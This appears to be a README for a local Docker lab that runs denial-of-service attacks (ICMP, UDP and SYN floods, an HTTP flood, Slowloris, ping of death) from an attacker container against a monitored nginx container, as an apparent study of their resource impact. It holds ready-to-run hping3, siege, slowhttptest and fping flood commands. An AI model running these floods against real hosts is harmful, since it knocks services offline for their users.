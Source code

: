 # prjctr-16-ddos

create a token in influxdb for telegraf, add to telegraf config
create a token in influx db for grafana, add to grafana config

```
http://127.0.0.1:3000/connections/datasources/edit

docker exec -it influxdb influx auth create --org telegraf --read-buckets --read-checks  --read-checks  --read-dashboards --skip-verify --read-telegrafs --read-notificationEndpoints
```

Run the cluster

```
docker compose up -d --build
```

ICMP flood:

docker exec -it attacker hping3 --flood --icmp nginx -p 8080

UDP flood:

docker exec -it attacker hping3 --flood --rand-source --udp -p 8080 nginx

HTTP flood

Noticeably increases CPU and Memory usage of nginx

docker exec -it attacker siege -b -c250 -t60s http://nginx:8080

Slowloris

Significantly increases memory usage

docker exec -it attacker slowhttptest -c 1050 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3

SYN flood

docker exec -it attacker hping3 -S --flood -V -p 8080 nginx

Ping of death

docker exec -it attacker fping -b 65488 -c 10000 -p 10 nginx
